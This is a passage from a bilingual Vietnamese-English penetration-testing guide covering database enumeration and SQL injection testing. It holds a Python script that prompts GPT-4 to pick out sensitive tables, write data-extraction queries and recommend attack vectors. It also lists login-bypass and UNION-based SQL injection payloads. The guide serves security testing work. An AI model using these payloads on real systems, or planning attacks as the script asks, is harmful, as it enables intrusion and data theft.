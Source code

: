 ```bash
       --columns \
       --batch
```

#### 2.3 AI-Assisted Enumeration

**Python Script với AI:**
```python
import openai

def analyze_database_structure(tables_list):
    prompt = f"""
    Given these database tables: {tables_list}

    1. Identify potentially sensitive tables
    2. Suggest SQL queries to extract valuable data
    3. Recommend attack vectors
    """

    response = openai.ChatCompletion.create(
        model="gpt-4",
        messages=[{"role": "user", "content": prompt}]
    )

    return response.choices[0].message.content

# Usage
tables = ["users", "admin_panel", "products", "audit_log"]
recommendations = analyze_database_structure(tables)
print(recommendations)
```

---

### 3. VULNERABILITY ASSESSMENT (Đánh giá lỗ hổng)

#### 3.1 SQL Injection Testing

**Manual Testing:**

```
# Authentication Bypass - Login Form
Username: admin' OR '1'='1' --
Password: anything

Username: admin'--
Password:

Username: ' OR 1=1--
Password:

# Comment-based injection
Username: admin'/*
Password: */OR'1'='1

# UNION-based injection
Username: ' UNION SELECT NULL, NULL, NULL--
Password:
```
